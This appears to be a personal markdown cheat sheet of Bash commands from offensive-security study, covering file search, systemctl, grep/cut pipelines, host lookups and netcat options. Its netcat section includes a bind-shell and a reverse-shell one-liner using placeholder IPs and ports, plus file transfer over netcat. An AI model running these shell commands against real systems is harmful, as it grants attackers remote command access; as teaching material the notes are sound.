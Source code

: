 # Notes
https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet

# Bash commands

---

## Etc
updatedb

### Search
* locate sbd.exe
* which sbd
* find / -name sbd*

---
## Services
### Starting and stopping services manually
systemctl [command] [service]
command: start/stop
service: ssh/apache

### Enabling and disabling services starting on boot
systemctl [command] [service]
command: enable/disable
service: ssh/apache

### Verifying service is running
netstat -antp | grep [service]
service: sshd/apache

---

## grep (global regular expression print)
### grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
* grep "href=" index.html   (from index.html, extract all lines that contain "href=")
* cut -d "/" -f 3           (split using the front slash delimiter at the 3rd field)
* grep "\."                 (from previous outputs, extract all lines that contain a period)
* cut -d '"' -f 1           (from previous outputs, split using the double quotation mark delimiter at the 1st field)
* sort -u                   (sort unique)

### for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u
*  for url in $(cat list.txt); do host $url; done    (for loop, iterates through each line in list.txt with each line as $url and runs host)
* grep "has address"                                (extract all lines that contain "has address")
* cut -d " " -f 4                                   (split using the space delimiter at the 4th field)
* sort -u                                           (sort unique)

---

## nc (Netcat)

Options | Definition
--- | ---
-l |  Listen mode (default is client mode)
-L |  Listen harder (only on Windows Netcat). Makes Netcat a persistent listener which listens again after a client disconnects
-u |  UDP mode (default is TCP)
-p |  Local port (in listen mode, this port is listened on. In client mode, this is source port for all packets sent)
-e | Program to execute after connection occurs, connecting STDIN and STDOUT to the program
-n | Don't perform DNS lookup on names of machines on other side
-z | Zero-I/O mode (don't send any data, just emit a packet without payload)
-wN | Timeout for connects, waits for N seconds after closure of STDIN. A Netcat client or listener with this option will wait for N seconds to make a connection. If the connection doesn't happen in that time, Netcat stops running
-v |  Verbose, printing out messages on Standard Error, such as when a connection occurs
-vv | Very verbose, printing even more details on Standard Error

### nc -nv [ip] [port] (testing if port is open)
### nc -nlvp [port] (listening to port)
### Transferring files with netcat
* nc -nlvp [port] > [file]        (redirects any incoming input to the $port into the $file)
* nc -nv [ip] [port] < [file]     (sends $file through $port)
### Netcat bind shell
* nc -nlvp [port] -e cmd.exe (Netcat has bound $port to cmd.exe and will redirect any messages from cmd.exe to the network)
* Listener sets up netcat so that anyone connecting to listener's IP and port will be given access to listener's cmd.exe
### Netcat reverse bind shell
* nc -nv [ip] [port] -e /bin/bash
* Sending shell access to $ip and $port
